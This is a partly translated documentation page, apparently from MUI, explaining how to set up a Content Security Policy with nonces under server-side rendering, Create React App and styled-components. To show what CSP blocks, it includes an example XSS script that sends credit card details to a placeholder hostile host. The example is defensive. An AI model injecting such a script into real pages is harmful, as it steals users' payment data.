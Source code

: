 # 内容安全策略（CSP）

<p class="description">本节介绍了建立 CSP 的详细信息。</p>

## 什么是 CSP，为什么它有用？

CSP 通过要求开发人员检索其资产的来源并将其列入白名单来缓解跨站点脚本（XSS）攻击。 此列表作为服务器的头部（heade）返回。 例如，假设您有一个托管在 `https://example.com` 的网站 CSP 头部 `default-src：'self';` 将仅加载 `https://example.com/*` 的所有资源，并否认所有其他人。 如果您的网站的某个部分容易受到 XSS 的影响而未显示未转义的用户输入，则攻击者可以输入以下内容：

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

此漏洞允许攻击者执行任何操作。 但是，若使用安全的 CSP 头部，浏览器将不会加载此脚本。

您可以在 [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) 阅读有关 CSP 的更多信息。

## 如何实现CSP？

### 服务端渲染（SSR）

To use CSP with MUI (and emotion), you need to use a nonce. 随机数是一个随机生成的字符串，只使用一次，因此您需要添加服务器中间件以在每个请求上生成一个。

CSP nonce 是一个 Base 64 编码的字符串。 你可以生成这样一个：

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

你必须使用 UUID 4，因为它可以生成一个 **不可预测** 的字符串。 接下来您可以将此随机数应用于 CSP 头部。 应用了随机数时，CSP 头部可能看起来像这样：

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src: 'self' 'nonce-${nonce}';`,
);
```

你应该在服务端的 `<style>` 标签中传递一次性加密数字（nonce）。

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{
    __html: sheets.toString(),
  }}
/>
```

然后，您必须将此随机数传递给 JSS ，以便将其添加到后续 `<style>` 标记中。

> Note, if you were using `StyledEngineProvider` with `injectFirst`, you will need to replace it with `CacheProvider` from emotion and add the `prepend: true` option.

```js
<head>
  <meta property="csp-nonce" content="this-is-a-nonce-123" />
</head>
```

### Create React App (CRA)

根据 [Create React App 文档](https://create-react-app.dev/docs/advanced-configuration/)，Create React App 会在生产构建过程中默认将运行时脚本动态嵌入到 index.html 中。 这需要在你的每次部署时都要在 CSP 中设置一个新的哈希值。

要将 CSP 与 Create React App 的项目一起使用，你需要在用于生产构建的 `.env` 文件中设置 `INLINE_RUNTIME_CHUNK=false`。 这将像往常一样导入运行时脚本，而不是直接嵌入它，就可以避免在每次部署时都需要设置一个新的哈希值的情况了。

### styled-components

The configuration of the nonce is not straightforward, but you can follow [this issue](https://github.com/styled-components/styled-components/issues/2363) for more insights.

